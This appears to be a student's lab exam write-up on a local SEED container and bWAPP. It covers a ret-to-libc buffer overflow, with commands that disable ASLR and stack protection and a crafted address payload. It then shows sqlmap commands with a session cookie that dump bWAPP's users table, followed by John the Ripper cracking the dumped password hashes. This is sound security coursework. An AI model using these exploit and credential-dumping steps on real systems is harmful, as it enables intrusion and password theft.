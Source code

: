 # Task1: Software buffer overflow attack
**Student ID: 22110038**

**Name:** Phan Triệu Huy 

## Setup env:

**Run docker env:** docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab

![image](https://github.com/user-attachments/assets/06cbf417-5575-4641-84b9-447a46c15091)

**Create file task1.c and vuln.c to inject code:**

vuln.c:

![image](https://github.com/user-attachments/assets/a641a96e-9d42-49d0-a25b-3de4469e76ea)

task1.c:

![image](https://github.com/user-attachments/assets/3a749cb1-2267-4ba3-9d32-6f2ba89c51d4)
 
 **setup:**
 
Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack.This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this feature using the following command:
sudo sysctl -w kernel.randomize_va_space=0

![image](https://github.com/user-attachments/assets/f8d0b7c8-25c8-4755-b848-7fcc944dc4cd)

In both Ubuntu 12.04 and Ubuntu 16.04 VMs, the/bin/sh symbolic link points to the/bin/dash shell. The dash shell in Ubuntu 16.04 has a countermeasure that prevents itself from being executed in a Set-UID process. Basically, if dash detects that it is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege.Since our victim program is aSet-UID program, and our attack relies on running/bin/sh, the countermeasure in/bin/dash makes our attack more difficult.
sudo ln -sf /bin/zsh /bin/sh

![image](https://github.com/user-attachments/assets/17c0f108-c688-4a62-92bf-0fad1ed11384)

Compile program with options to defeat stack protecting mechanism and code execution on stack:

gcc vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

![image](https://github.com/user-attachments/assets/19e982d1-dc96-47c9-9339-8a85eddcd3dd)
## Attack:

**overview:**

![image](https://github.com/user-attachments/assets/cc724258-5395-47b6-9409-69621a79c880)

because shellcode larger 16byte . So, I'll use ret-to-libc.

**export path task1.c to env:**
export mypath="/home/seed/seclabs/lab_exam/task1.c"
![image](https://github.com/user-attachments/assets/be7a33d1-2531-433c-893b-f402628c0fae)
**run debug:**
gdb ./vuln
start
![image](https://github.com/user-attachments/assets/cff40445-01c0-4ddd-9ec6-3382fde290cc)
**get address of system, exit, mypath:**
![image](https://github.com/user-attachments/assets/ddd26bf2-509b-404a-a29f-c3a82c84dcf5)

system: 0xf7e50db0  will be inserted with format \xb0\x0d\xe5\xf

exit: 0xf7e449e0  will be inserted with format \xe0\x49\xe4\xf7

mypath("/home/seed/seclabs/lab_exam/task1.c"): 0xffffdf14 to \x14\xdf\xff\xff

=> r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\x14\xdf\xff\xff')")

![image](https://github.com/user-attachments/assets/3a191e29-6018-4a78-a450-237b57bfc60e)

=> it execute code C but i have bug. 

**run remove ^M**

cat -v task1.c
sed -i 's/\r$//' task1.c

before: 

![image](https://github.com/user-attachments/assets/54e994ff-8957-4a71-b27e-d51f1c991c21)

after: 

![image](https://github.com/user-attachments/assets/25aee0e4-767d-4e09-9a94-71a10ed713df)

**complie this code c to task1 and set sudo ./task1:**

gcc task1.c -o task1 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
sudo ./task1

**now get address of task1 like each step above:**

**before attack:**

![image](https://github.com/user-attachments/assets/603431f1-e1fe-44d5-81da-17768aec7fce)

**after attack:**

![image](https://github.com/user-attachments/assets/4fdcfcd4-c549-4e68-8084-469c28001205)

# Task2: Attack on the database of bWapp 
## Install:
**Install bWapp:**
docker pull raesene/bwapp
docker run --rm -it -p 8025:80 raesene/bwapp
localhost:8025/install.php

![image](https://github.com/user-attachments/assets/d454d936-825b-4939-a906-d207ea620f13)

**Install sqlmap:**

![image](https://github.com/user-attachments/assets/bb57e17f-06cc-4090-8042-7c7d1090ca7c)

![image](https://github.com/user-attachments/assets/6d342a2b-4068-4b2a-b759-b9024843b461)

## question1:  Use sqlmap to get information about all available databases

**get cookies of web:**

![image](https://github.com/user-attachments/assets/131f0c6d-dc0d-46f8-acef-2655f0581e3c)

**get valiable tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/83a79a5b-1806-49a6-826b-7e101ec81231)

## question2:  Use sqlmap to get tables, users information
**get tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/7f30c176-7beb-4e72-a5d4-d44f9ebbf4e9)

**get users information:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"
info of tables:

![image](https://github.com/user-attachments/assets/310dea9c-6304-4ba7-b3b7-3cf06dcc1d34)

data of tables:

![image](https://github.com/user-attachments/assets/cd36bebf-4431-41f1-a69d-c3f0b42e7ecf)

## question3:  Make use of John the Ripper to disclose the password of all database users from the above exploit
**run (to get and save file password):**
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0" --output-dir= "C:\Users\LENOVO\Downloads"

![image](https://github.com/user-attachments/assets/ee10ed6a-11e8-49b1-b041-1eab3a4877a2)

because it is file .csv, so i'll convert it into file txt.
**code convert:**

![image](https://github.com/user-attachments/assets/1daa0695-8bdb-42bb-8ff6-240db1fddbbe)

ouput file hashes.txt: 

![image](https://github.com/user-attachments/assets/3020d8db-f1ef-4ff1-b9ca-198bc4fd2fab)

**run cracked:**
 ./john --incremental hashes.txt
 
 ![image](https://github.com/user-attachments/assets/8df31ea1-e2c3-414e-845b-2d1a5467d4fe)

 ./john --show hashes.txt
 
![image](https://github.com/user-attachments/assets/dd3d5d41-a1ae-4b7e-b0c4-7b6965e6491f)

so password is **bug**

**result:**

![image](https://github.com/user-attachments/assets/04431e25-9745-4667-91ff-97d0c8b64040)

![image](https://github.com/user-attachments/assets/25a2de92-b972-4c00-a999-834c5609efe6)

